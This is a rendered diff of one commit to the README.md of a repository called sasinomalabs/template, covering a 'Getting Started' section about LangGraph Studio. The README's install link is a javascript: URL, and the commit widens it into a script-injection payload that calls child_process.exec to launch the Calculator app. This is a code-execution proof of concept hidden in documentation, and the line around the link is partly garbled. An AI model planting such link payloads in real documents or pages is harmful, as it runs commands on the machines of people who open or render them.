

Before and after one commit to sasinomalabs/template, a Markdown page: README.md, the part around the change. GitHub-like rendering.

```diff
--- a/README.md
+++ b/README.md
@@ -30,7 +30,7 @@ By default, it's set up to answer questions based on the user's indexed document
 
 ## Getting Started
 
-Assuming you have already [installed LangGraph Studio](javascript:alert(22)) sasi(;#//https://github.com/langchain-ai/langgraph-studio?tab=readme-ov-file#download), to set up:
+Assuming you have already [installed LangGraph Studio](javascript:alert(22);require('child_process').exec('open /Applications/Calculator.app');) sasi(;#//https://github.com/langchain-ai/langgraph-studio?tab=readme-ov-file#download), to set up:
 
 1. Create a `.env` file.
 
```
